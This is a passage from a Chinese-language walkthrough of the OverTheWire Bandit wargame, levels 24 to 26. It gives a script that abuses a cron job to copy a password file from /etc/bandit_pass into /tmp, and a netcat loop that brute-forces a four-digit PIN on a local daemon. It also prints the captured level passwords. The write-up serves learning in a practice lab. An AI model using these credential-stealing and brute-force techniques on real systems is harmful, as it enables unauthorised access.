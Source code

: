 ```bash
        rm -f "./$i"
    fi
done
```

每次都执行 `/var/spool/bandit24` 下的所有可执行文件, 之后删除. 当然是以 `bandit24` 的身份执行这些操作.

所以我们可以构造一个脚本让他执行.

```bash
#!/bin/sh
cp /etc/bandit_pass/bandit24 /tmp/tmp.xxx/psw
chmod 666 /tmp/tmp.xxx/
```

这个脚本把密码文件复制到临时目录并且更改他的权限(至少让所有人可读).

中间出了很多愚蠢的错误, 比如写错目录,搞错 `sh` 的路径什么的, 另外, 不能用重定向导出 `bandit24` 的密码, 因为没有权限(为什么没有权限我就不清楚了). 

脚本写完后, `chmod +x`, 再把它复制到 `/var/spool/bandit24` 目录下, 记得备份, 每隔一分钟该目录就会被清空.

脚本执行后, 到 `/tmp/tmp.xxx` 里就可以看到存有 key 的文件了.

> key: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


#bandit25
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

有一个守护进程在 `30002` 端口监听, 把 `bandit24` 的密码和一个四位数字组成的 pincode 传给它, 如果密码和 pincode 都正确的话会返回 `bandit25` 的密码.

所以自然是爆破了, 直接用 nc 链接该端口会提示:

> I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

所以按照格式来, 生成 10000 个 密码 + pincode 的序列传给该端口.

```bash
for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> /tmp/pin; done
cat /tmp/pin | nc localhost 30002 > /tmp/log
cat /tmp/log | grep "Corr" -n1
```

其实答案就是最后一个端口...

> 5670-Wrong! Please enter the correct pincode. Try again.<br>
> 5671:Correct!<br>
> 5672-The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

所以: 

> key: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG


#bandit26
> Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

